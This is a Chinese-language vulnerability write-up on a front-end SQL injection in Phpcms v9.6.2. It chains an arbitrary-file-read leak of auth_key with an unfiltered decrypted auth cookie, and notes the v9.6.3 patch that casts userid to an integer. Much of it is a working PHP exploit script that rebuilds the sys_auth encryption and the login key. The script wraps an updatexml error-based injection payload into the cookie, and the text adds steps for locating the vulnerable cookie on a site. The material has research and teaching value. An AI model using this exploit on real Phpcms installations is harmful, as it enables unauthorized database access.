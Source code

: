 ```yaml
---
title: Phpcms v9.6.2 前台sql注入
id: zhfly3080
---
```


# Phpcms v9.6.2 前台sql注入

## 一、漏洞简介

## 二、漏洞影响

Phpcms v9.6.2

## 三、复现过程

### 漏洞分析

这个版本的的注入，是建立在任意文件读取漏洞存在的情况下才可利用。通过任意文件读取漏洞获得加解密的 **key** 值，我们可以用这个 **key** 加密我们的 **SQL注入payload** 。由于程序对解密后的数据并未过滤，最终导致漏洞发生。严格上来讲 **v9.6.2** 版本的注入只能在 **windows** 上利用，具体原因在上面的任意文件读取漏洞分析时也说了。下面我们来具体分析一下这个漏洞。

漏洞文件位于 **phpcms/modules/member/classes/foreground.class.php** ，代码如下图。我们可以明显看到下图第33行，程序直接将解密后的数据未经过滤直接带入查询。而待解密数据 **$phpcms_auth** 和解密秘钥 **$auth_key** 均可构造。

![image](../img/4470e458f924f63a9edb1aba41288bed.png)

我们先来看一下待解密数据 **$phpcms_auth** 如何构造。从下图中，可以看出程序将从 **cookie** 中的 **xxx_auth** 字段经过 **sys_auth** 函数解密后，返回给了 **$phpcms_auth** ，而默认情况下使用 **pc_base::load_config('system', 'auth_key')** 作为加解密的 **key** 值。

![image](../img/76d14a61460d100ee99e70e3fab4ce58.png)

而 **pc_base::load_config('system', 'auth_key')** 的值在网站搭建好后，会存储在 **caches/configs/system.php** 中，我们可以通过任意文件读取来获得这个值。

![image](../img/774d51d1c5c6508c6a141226afeb0ed7.png)

现在 **$phpcms_auth** 已经搞定了，我们再来看看 **$auth_key = get_auth_key('login')** 如何构造，跟进 **get_auth_key** 的代码。我们可以看到 **$auth_key** 由 **$prefix、pc_base::load_config('system','auth_key')、ip()** 三个元素决定。前两个都是已知的，而第三个获取用户IP的函数存在IP伪造的问题，也可以是固定的。

![image](../img/9a7401bee414227774c849f6e38b45b5.png)

所以 **get_auth_key('login')** 的值也是我们可以构造的，剩下的事情只要我们将 **payload** 传给加密函数加密两次即可。我们最后再来看一下 **PHPCMS v9.6.3** 中是如何修复这个漏洞的，补丁如下：

![image](../img/4b7050d112e53a70d5c409aaf3219d77.png)

可以明显看到，补丁将解密后获得的 **$userid** 进行了强转。

### 漏洞复现

分析完毕后得到大致流程：

解密操作：get_cookie(‘auth’) 得到$phpcms_auth，get_auth_key(‘login’)得到$auth_key，然后sys_auth($phpcms_auth, ‘DECODE’, $auth_key)。

再通俗些的话：sys_auth方法对cookie中包含auth的参数名对应的密文值，先使用配置文件中的auth_key进行sys_auth得到的值作为第一次解密后的值，然后使用配置文件中的auth_key的值与客户端请求的IP拼接做MD5加密的值做为新的key，第一次解密后的值与新的key最后传入sys_auth进行解密得到最终的明文。

反之加密方法便是：

使用配置文件中的auth_key的值与客户端请求的IP拼接做MD5加密的值做为新的key，使用新的key与明文进行sys_auth得到的值作为第一次加密的密文，然后使用配置文件中的auth_key作为key与第一次加密的密文传入sys_auth得到的值作为最终的密文，也就是cookie字段名称中包含auth的参数对应的值。

**如下是将各个文件中的加密解密方法抓取出来稍作修改，在本地进行payload的加解密操作：**

```
<?php
function sys_auth($string, $operation = 'ENCODE', $key = '', $expiry = 0,$auth_key='7G6idVtMAxhgFVu5vGp1') {
    $ckey_length = 4;
    $key = md5($key != '' ? $key : $auth_key);
    $keya = md5(substr($key, 0, 16));
    $keyb = md5(substr($key, 16, 16));
    $keyc = $ckey_length ? ($operation == 'DECODE' ? substr($string, 0, $ckey_length): substr(md5(microtime()), -$ckey_length)) : '';
    $cryptkey = $keya.md5($keya.$keyc);
    $key_length = strlen($cryptkey);

```
$string = $operation == 'DECODE' ? base64_decode(strtr(substr($string, $ckey_length), '-_', '+/')) : sprintf('%010d', $expiry ? $expiry + time() : 0).substr(md5($string.$keyb), 0, 16).$string;
$string_length = strlen($string);

$result = '';
$box = range(0, 255);

$rndkey = array();
for($i = 0; $i &lt;= 255; $i++) {
    $rndkey[$i] = ord($cryptkey[$i % $key_length]);
}

for($j = $i = 0; $i &lt; 256; $i++) {
    $j = ($j + $box[$i] + $rndkey[$i]) % 256;
    $tmp = $box[$i];
    $box[$i] = $box[$j];
    $box[$j] = $tmp;
}

for($a = $j = $i = 0; $i &lt; $string_length; $i++) {
    $a = ($a + 1) % 256;
    $j = ($j + $box[$a]) % 256;
    $tmp = $box[$a];
    $box[$a] = $box[$j];
    $box[$j] = $tmp;
    $result .= chr(ord($string[$i]) ^ ($box[($box[$a] + $box[$j]) % 256]));
}

if($operation == 'DECODE') {
    if((substr($result, 0, 10) == 0 || substr($result, 0, 10) - time() &gt; 0) &amp;&amp; substr($result, 10, 16) == substr(md5(substr($result, 26).$keyb), 0, 16)) {
        return substr($result, 26);
    } else {

        return '';
    }
} else {
    return $keyc.rtrim(strtr(base64_encode($result), '+/', '-_'), '=');
} 
```

}

function get_auth_key($prefix,$suffix="",$ip=‘127.0.0.1’,$auth_key=‘7G6idVtMAxhgFVu5vGp1’) {

if($prefix==‘login’){

$pc_auth_key = md5($auth_key.$ip);

}else if($prefix==‘email’){

$pc_auth_key = md5($auth_key);

}else{

$pc_auth_key = md5($auth_key.$suffix);

}

$authkey = md5($prefix.$pc_auth_key);

return $authkey;

}

//解密过程

//step 1

$encryption_str = ‘6fc7TB1Y1nIRK5HunMc5HAUw5WkBLLuQGBiOISDhJM4d8N8WHHOvqMaUSyWrZdVdH046oGv_e_Ir6Q157UV-yT5Aksuc_h_4RfwZqsEwDHfQckv4SReOiYFxm083X7Tydcw-nUy8l3nP-ouUGl59sN4’;

$operation1 = ‘DECODE’;

$decryption_step1 = (sys_auth($encryption_str, $operation1));

echo ‘decryption_step1 result:’.$decryption_step1."\n";

//step 2

$decryption_step2 = $decryption_step1;

$auth_key = get_auth_key(‘login’);

echo ‘decryption_step2 result:’.sys_auth($decryption_step2, ‘DECODE’, $auth_key)."\n";

echo ‘-----------------------’."\n" ;

//加密过程

//step 1

$clear_str = “1’or updatexml(1,concat(0x7e,(select user()),0x7e),1)  or '1    f867fef04bd76d95abe01300951ca336”;

$operation2 = ‘ENCODE’;

$encryption_step1 = sys_auth($clear_str, ‘ENCODE’, $auth_key);

echo ‘encryption_step1 result:’.$encryption_step1."\n"; `//step 2

$encryption_step2 = (sys_auth($encryption_step1, $operation2));

echo ‘encryption_step2 result:’.$encryption_step2;` 
```

使用上面的代码可以进行解密和加密，下图中decryption_step2 result的值便是对payload进行解密的最终结果，encryption_step2的值是对payload进行加密的最终结果。

![image](../img/8955855c6d7ad23e696bf0364bafed58.png)

最终利用的现象，cookie中的YDVIB_auth参数名称，前缀是安装时候生成的可能不一样，可以在配置文件中找到对应的值，可以先注册普通用户然后看服务端下发的cookie中字段名称中xxx_auth的参数名称，便是存在漏洞的位置。

![image](../img/4e64a2314fbbdf91cf8a670c462b09d8.png)

## 参考链接

> https://www.freebuf.com/column/158352.html

> https://xz.aliyun.com/t/5731